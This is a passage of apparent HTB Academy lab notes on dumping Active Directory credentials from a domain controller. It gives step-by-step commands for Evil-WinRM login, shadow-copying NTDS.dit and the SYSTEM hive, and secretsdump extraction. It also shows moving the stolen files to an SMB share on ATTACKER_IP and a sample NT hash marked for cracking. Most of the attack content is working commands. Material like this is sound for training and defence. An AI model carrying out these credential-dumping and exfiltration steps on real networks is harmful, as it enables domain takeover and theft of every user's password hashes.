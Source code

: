 ```bash
# NTDSUTIL   10.129.202.85   445   DC01   jstapleton:1134:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
```

### Method 2: Manual VSS (Volume Shadow Copy)
```bash
# Step 1: Connect with Evil-WinRM
evil-winrm -i 10.129.202.85 -u jmarston -p 'P@ssword!'

# Step 2: Check privileges (ensure Domain Admin)
net user jmarston
# Look for: Global Group memberships *Domain Admins

# Step 3: Create Volume Shadow Copy
vssadmin CREATE SHADOW /For=C:
# Output: Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

# Step 4: Copy NTDS.dit and registry hives
mkdir C:\temp
cmd.exe /c copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit" C:\temp\NTDS.dit
cmd.exe /c copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SYSTEM" C:\temp\SYSTEM

# Step 5: Transfer to attack host
# On attack host:
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /tmp/

# On target:
cmd.exe /c move C:\temp\NTDS.dit \\ATTACKER_IP\CompData
cmd.exe /c move C:\temp\SYSTEM \\ATTACKER_IP\CompData
```

### Method 3: Impacket secretsdump
```bash
# Remote NTDS.dit extraction
python3 secretsdump.py ILF.local/jmarston:P@ssword!@10.129.202.85 -just-dc-ntlm

# Local extraction from files
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```

## 🔓 Hash Cracking and Analysis

### Hash Format Understanding
```bash
# NTDS.dit output format:
# username:RID:LM_hash:NT_hash:::

# HTB Academy Jennifer Stapleton example:
# jstapleton:1134:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
#                                                   ^-- This is the NT hash to crack
```
